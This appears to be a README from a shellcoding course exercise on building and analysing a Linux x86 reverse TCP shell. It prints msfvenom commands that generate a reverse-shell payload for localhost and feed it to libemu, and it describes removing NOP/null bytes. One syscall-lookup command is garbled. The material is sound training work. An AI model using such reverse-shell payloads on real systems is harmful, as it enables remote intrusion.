


# Exercise 2


## Usage

```
python3 wrapper.py $IP $PORT
```



If there are not input variables, the program asks for them:


## Steps

Get "sctest" result (also using *libemu.sh* script in **scripts/** folder):


```
msfvenom -p linux/x86/shell_reverse_tcp --platform=Linux -a x86 -f raw LPORT=8888 LHOST=127.0.0.1 | ./sctest -vvv -Ss 10000 -G reverseshell.dot
-------------------------------------

sh libemu.sh "msfvenom -p linux/x86/shell_reverse_tcp --platform=Linux -a x86 -f raw LPORT=8888 LHOST=127.0.0.1" reverseshell | tee libemu_res/libemu_res.txt
```

Get hexadecimal values for every syscall (also using *syscallhex.sh* script in **scripts/** folder):
```
cat /usr/include/i386-linux-gnu/asm/unistd_32.h | listen

printf "%x\n" 363

-------------------------------------

sh syscallhex.sh listen
```

## Deleting NOPs

First, there are NOPS:


One example is the use of [socket]:


Which creates these NOPS:


Using Sublime Text it is possible to replace them with "esi", a register which is not being used:


Then, it seems there are not more NOP values:


It is possible to check it using objdump (in this case through the script *clean.sh* from the **scripts/** folder) and grep:


## Adding text messages





## Argv tests
Get Argc value: 	
https://forum.nasm.us/index.php?topic=889.0
